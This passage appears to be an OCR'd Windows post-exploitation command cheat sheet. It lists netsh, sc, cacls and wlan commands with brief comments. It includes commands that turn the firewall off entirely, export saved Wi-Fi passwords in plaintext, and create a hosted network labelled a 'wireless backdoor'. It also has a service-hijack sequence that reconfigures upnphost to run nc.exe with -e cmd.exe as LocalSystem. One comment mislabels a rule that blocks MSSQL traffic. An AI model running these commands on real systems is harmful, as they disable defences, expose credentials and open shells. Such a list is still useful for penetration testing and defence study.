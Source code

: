     -make an smb share world-accessable
pushd \\10.2.2.224\C$
    -mount remote file share to automatically mapped drive
cacls c:\path\ /T /E /G user:f
    -grant user full file access control from path
tasklist /V /S computername
    Lists tasks w/users running those tasks on a remote system
netsh firewall show state
netsh firewall show config
netsh firewall set opmode disable
netsh advfirewall firewall set rule group="windows management instrumentation (wmi)" new enable=yes
    -enable remote wmi
netsh interface ip set address local dhcp
    -configure nic to user dhcp
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
    -open port (for rdesktop)
netsh advfirewall firewall add rule name="Block mssql attack ips" dir=in action=block protocol=TCP localport=1433 remoteip=22.75.175.213
    -close port (for rdesktop)
netsh advfirewall set allprofiles state off
netsh wlan show profiles
    -shows all saved wireless profiles
netsh wlan export profile folder=. key=clear
    exports a user wifi profile with the password in plaintext to an xml file in the current working directory
netsh wlan [start|stop] hostednetwork
    Starts or stops a wireless backdoor on a windows 7 pc
netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent|temporary
    Complete hosted network setup for creating a wireless backdoor on win 7
netsh wlan set hostednetwork mode=[allow|disallow]
netdom query trust /Domain:dnsname
    OR
nltest /domain_trusts /All_Trusts
 
 
 
SERVICES/PROCESSES/PERMISSIONS && configuration
tasklist
tasklist /SVC
taskkill <pid>
net start
    -list all running services
sc [stop|start] service
sc qc service
    -view configuration of a service
    ->sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    ->sc config upnphost obj= ".\LocalSystem" password= ""
    ->net start upnphost
sc query
sc queryex
schtasks /query /fo LIST /v
net start RpcSs
net stop RpcSs
    -start stop rpc service on localhost
c:\windows\system32\gathernetworkinfo.vbs
    (Windows 7)Included script with, enumerates builtin config information
pkgmgr /iu:"TelnetServer"
pkgmgr /iu:IIS-WebServerRole;WAS-WindowsActivationService;WAS-WindowsProcessModel; WAS-NetFxEnvironment;WAS-ConfigurationAPI
pkgmgr /uu:WAS-WindowsActivationService;WAS-WindowsProcessModel
    (On Vista) install update or uninstall update builtin process
icacls "dir\"
    -check the file permissions of a folder
 
